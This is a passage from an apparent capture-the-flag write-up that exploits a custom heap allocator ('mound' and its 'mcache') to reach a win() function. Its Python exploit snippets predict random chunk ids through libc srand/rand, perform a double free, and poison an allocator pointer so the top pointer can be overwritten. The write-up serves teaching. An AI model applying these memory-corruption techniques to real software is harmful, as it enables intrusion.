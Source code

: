 ```python
def r64(): return randint(0, (1<<64)-1) # generate random ids. Unrelated to rand64bit()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(r64())[:7].rjust(0x17, b'a'))
    free(1)
    edit(0, pack(id)[:7].rjust(0x17,b'a'))
    add(0x10, 2, b'a'*0x10)
```

Then I'd be able to free the same region of memory twice, like this:

```python
from ctypes import CDLL
libc = CDLL('libc.so.6')
# r = ...
libc.srand(libc.time(0)^r.pid) # pid will have to be guessed on remote
def rand64bit(): return libc.rand() + (libc.rand()<<32)
# ... omitted code ...
# ... make sure to account for rand() calls throughout code as well ...
while 1:
    add(sz=0x20, idx=0xf, b'hi')
	if not ((chunk_id := rand64bit()) >> 56): break
free(0xf)
rm_id(chunk_id)
free(0xf)
```

This is a classic tcache dup, except with the `mcache` instead. Once you accomplish this much, getting to `win()` isn't much of a challenge.

### Getting to `win()`

Right now, `mcache->entries[1] == [arr[0xf] -> arr[0xf]]`. `arr[0xf]->next` can be modified to anything, so long as `(mcache_entry*)(arr[0xf]->next)->mcache == mound_arena.mcache`. Taking a hint from the the definition, I'll try to point `->next` to `mound_arena.mcache-0x10`, because it's the only non-user-controlled region that happens to have an `mcache` pointer.

```python
add(0x20, 0xe, fit(0xbeef0000010, 0xdead0007ff8))
```

The linked list here is now `[arr[0xf] -> mound_arena+0x7ff8]`. As a reminder, the `mound_arena` looks like this:

```c
typedef struct mound_metadata {
    void *mound_base; // = 0xbeef0000000; never used for anything
    size_t ids[0x1000]; // rand64() ids assigned to every chunk allocated by mmalloc.
    mcache_struct *mcache; // tcache, but for the mound.
    mchunk *top; // pointer to the top chunk
} mound_metadata; // sizeof(mound_metadata) == 0x8018
```

Right after the `mcache` is the `top` pointer. Pulling two items off of the mcache linked list will get the `top` pointer overwritten with user-controllable data:
